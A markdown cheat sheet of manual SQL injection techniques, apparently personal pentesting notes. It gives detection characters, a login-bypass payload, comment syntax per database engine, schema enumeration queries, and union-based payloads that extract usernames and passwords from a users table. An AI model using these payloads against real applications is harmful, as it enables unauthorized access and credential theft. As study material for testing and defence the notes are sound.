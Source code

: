 # SQL Injections

This file is mostly for manual SQL injections. There should be separate notes for SQLMap somewhere.

## Table of Contents:

* Detection
* Comments
* Enumeration
* Union-Based
* Error-Based
* Time-Based
* Concat rows

## Detection

When doing manual enum, throw some special characters into a parameter and see if it breaks anything in an unexpected way:

```default
'"(){};
```
```default
'"(){}; -- -#/*
```

But you might also be able to trigger a lot with just a single `'`.

The most basic SQL login bypass:

* user: `' or '1'='1'-- -`
* pass: `' or '1'='1'-- -`


Sometimes you need to escape a function:
```default
') <your injection> -- -
```
or
```default
) <your injection> -- -
```

It might requires a bunch of brackets: `'))) <your injection> -- -`


## Comments

You often need to get rid of the part of the query that comes after your injection. You can do that by simply commenting out the remainder of the query.

Most often the two minuses work:
```default
--
```

But sometimes it is required that there is a space after the minuses: `-- `. An additional character afterwards ensures the space does not get removed in some strip() or trim() function.

So this is the preferred method that almost always work:
```default
-- -
```

Multi-line comments are also supported sometimes: `/* comment goes here */`. 
Obviously this might not always work because you can only control the comment start `/*`. 
Maybe you can create some funny results through multiple injection points into the same query.

Some engines also support the hash character `#` to initiate a comment.

* MySQL: #, --
* MS SQL: --
* MS Access: %00 (hack!)
* Oracle: --


## Database Software Enum

The first thing you want to do is try to find out what you are working with. That will determine the syntax you have to use and where you have to look for interesting data.

### Version

* Oracle : `select banner from v$version-- -`
* Mysql : `select VERSION();` ;alternatively: `SELECT @@version`
* MSSQL : `SELECT @@version`
* PostgreSQL : `SELECT version()`

### Tables

Databases besides Oracle usually support:

```default
SELECT * FROM information_schema.tables
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE FROM information_schema.tables
```

The rows of a table work similar:
```default
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
SELECT TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE WHERE table_name = 'Users'
```

Oracle:
```default
SELECT * FROM all_tables 
```

```default
SELECT * FROM all_tab_columns 
```


## Union-based attacks

* When to use:    There is a generated list/table of items generated by an injectible query
* Target result:  Include the rows of another table into the generated list/table (like username, password of a users table)

### Figure out number of selected rows

You can use the `order by` keyword. The query will error out if you order by a number greater than the available rows.

```default
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
... etc.
```

Alternatively you might be able to union select some data constants:

```default
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
... etc.
```

or

```default
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
... etc.
```

The last version might not always work, but the benefit is that you can see where each row ends up in the printed table.

Figure out data type of each row:
```default
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```

For ints do the same with some number.


On Oracle you might have to use a table even for constant data values, use the build-in DUAL table then:
```default
' UNION SELECT NULL,NULL FROM DUAL--. 
```

### Example
```default
' union select username,password from users-- -
```

### Concatinate several rows

Maybe you can only control a single row or you have to deal with multi line output, then you need to concat content.

#### Oracle:

```default
' union select NULL,username || '~' ||password from users-- -
```

Which selects the rows username and password into one row like 'admin~password123'











